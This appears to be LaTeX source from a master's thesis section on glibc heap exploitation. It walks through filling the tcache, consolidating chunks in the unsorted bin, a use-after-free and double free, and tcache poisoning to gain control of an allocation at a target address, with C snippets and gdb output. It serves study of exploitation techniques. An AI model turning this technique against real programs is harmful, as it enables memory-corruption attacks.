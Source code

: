 \documentclass{masterthesis}
\newcommand*\tch{tcache}
\newcommand*\ub{unsorted bins}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *prev = malloc(0x100);
intptr_t *a = malloc(0x100);
malloc(0x10);
\end{lstlisting}

As we mention, we need to fill up \tch{}, so , we perform the free function on the 7 chunks, as the result, heap manager force to use the \ub{} and other bins:

\begin{lstlisting}[language=c,frame=tlrb]
for(int i=0; i<7; i++){
  free(x[i]);
}
\end{lstlisting}

Now the tcahe is full. We perform the free function on the \lstinline{prev} and \lstinline{a}.

\begin{lstlisting}[language=c,frame=tlrb]
free(a);
free(prev);
\end{lstlisting}

The result of the above is to consolidate the ‘prev’ chunk with the victim ‘a’ ``Figure~\ref{fig:gdb11}``. Attention to the size and the address of the chunk:

\begin{lstlisting}[language=c,frame=tlrb]
Before:
unsorted_bins[0]: fw=0x555555559b10, bk=0x555555559b10
Chunk(addr=0x555555559b20, size=0x110, flags=PREV_INUSE)

After
unsorted_bins[0]: fw=0x555555559a00, bk=0x555555559a00
Chunk(addr=0x555555559a10, size=0x220, flags=PREV_INUSE)
 \end{lstlisting}

\begin{figure}[h!]
 \caption{a and prev pointers}
 \label{fig:gdb11}
\end{figure}

In the next step, with the help of UAF and double-free attack, we put back the victim in the \tch{}

\begin{lstlisting}[language=c,frame=tlrb]
malloc(0x100);
free(a);
\end{lstlisting}

The above procedure has another result, too; now we have two chunks that overlap too. For the rest of the attack, we perform a \tch{} poisoning. First, define a victim and overwrite the fd pointer pointing to the target, then two allocations. The last allocation has control over the target.``Figure~\ref{fig:gdb12}``
\end{document}
